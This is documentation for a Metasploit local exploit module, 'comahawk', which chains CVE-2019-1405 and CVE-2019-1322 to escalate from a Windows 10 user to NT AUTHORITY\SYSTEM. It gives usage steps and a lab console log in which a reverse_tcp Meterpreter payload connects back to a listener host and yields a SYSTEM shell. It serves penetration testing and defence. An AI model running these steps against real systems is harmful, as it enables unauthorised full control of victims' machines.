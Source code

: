 ## Introduction

This leverages two vulnerabilities on specific builds of Windows 10 to
move from an authenticated user of any level to NT AUTHORITY\LOCAL SERVICE
and then from NT AUTHORITY\LOCAL SERVICE to NT AUTHORITY\SYSTEM.
The first (CVE-2019-1405) uses the UPnP Device Host Service to elevate to
NT AUTHORITY\LOCAL SERVICE
The second (CVE-2019-1322) leverages the Update Orchestrator Service to
elevate from NT AUTHORITY\LOCAL SERVICE to NT AUTHORITY\SYSTEM.

The exploit works by creating a new service, so the exploit may take
up to minute on test systems, and may take longer in the wild.  Adjusting
the exploit_timeout value in the datastore.

## Usage

1. Create a session on the target system under the context of an authenticated user.
2. Begin interacting with the module: `use exploit/windows/local/comahawk`.
3. Set the `PAYLOAD` and configure it correctly.
4. If an existing handler is configured to receive the elevated session, then the module's
   handler should be disabled: `set DisablePayloadHandler true`.
5. Make sure that the `SESSION` value is set to the existing session identifier.
6. Invoke the module: `run`.

## Scenario

### Windows 10 (10.0 Build 17134) x64

```
[*] Meterpreter session 1 opened (192.168.135.168:5555 -> 192.168.132.125:49674) at 2019-12-11 18:33:09 -0600

meterpreter > sysinfo
Computer        : DESKTOP-D1E425Q
OS              : Windows 10 (10.0 Build 17134).
Architecture    : x64
System Language : en_US
Domain          : WORKGROUP
Logged On Users : 2
Meterpreter     : x64/windows
meterpreter > getuid
Server username: DESKTOP-D1E425Q\msfuser
meterpreter > getsystem
[-] priv_elevate_getsystem: Operation failed: The environment is incorrect. The following was attempted:
[-] Named Pipe Impersonation (In Memory/Admin)
[-] Named Pipe Impersonation (Dropper/Admin)
[-] Token Duplication (In Memory/Admin)
meterpreter > background
[*] Backgrounding session 1...
msf5 exploit(multi/handler) > use exploit/windows/local/comahawk 
msf5 exploit(windows/local/comahawk) > set versbose true
versbose => true
msf5 exploit(windows/local/comahawk) > set session 1
session => 1
msf5 exploit(windows/local/comahawk) > set payload windows/x64/meterpreter/reverse_tcp
payload => windows/x64/meterpreter/reverse_tcp
msf5 exploit(windows/local/comahawk) > set lhost 192.168.135.168
lhost => 192.168.135.168
msf5 exploit(windows/local/comahawk) > show options

Module options (exploit/windows/local/comahawk):

   Name             Current Setting  Required  Description
   ----             ---------------  --------  -----------
   EXECUTE_DELAY    3                yes       The number of seconds to delay between file upload and exploit launch
   EXPLOIT_NAME                      no        The filename to use for the exploit binary (%RAND% by default).
   EXPLOIT_TIMEOUT  60               yes       The number of seconds to wait for exploit to finish running
   PAYLOAD_NAME                      no        The filename for the payload to be used on the target host (%RAND%.exe by default).
   SESSION          1                yes       The session to run this module on.
   WRITABLE_DIR                      no        Path to write binaries (%TEMP% by default).


Payload options (windows/x64/meterpreter/reverse_tcp):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   EXITFUNC  process          yes       Exit technique (Accepted: '', seh, thread, process, none)
   LHOST     192.168.135.168  yes       The listen address (an interface may be specified)
   LPORT     4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Windows x64


msf5 exploit(windows/local/comahawk) > run

[*] Started reverse TCP handler on 192.168.135.168:4444 
[*] Attempting to PrivEsc on DESKTOP-D1E425Q via session ID: 1
[*] Exploit uploaded on DESKTOP-D1E425Q to C:\Users\msfuser\AppData\Local\Temp\TcpHnwmv.exe
[*] Payload (7168 bytes) uploaded on DESKTOP-D1E425Q to C:\Users\msfuser\AppData\Local\Temp\EubQLoJJbPMX.exe
[*] It may take a moment after the session is established for the exploit to exit safely.
[*] Sending stage (206403 bytes) to 192.168.132.125
[*] Meterpreter session 2 opened (192.168.135.168:4444 -> 192.168.132.125:49679) at 2019-12-11 18:35:35 -0600

meterpreter > sysinfo
Computer        : DESKTOP-D1E425Q
OS              : Windows 10 (10.0 Build 17134).
Architecture    : x64
System Language : en_US
Domain          : WORKGROUP
Logged On Users : 2
Meterpreter     : x64/windows
meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM
meterpreter > 

```
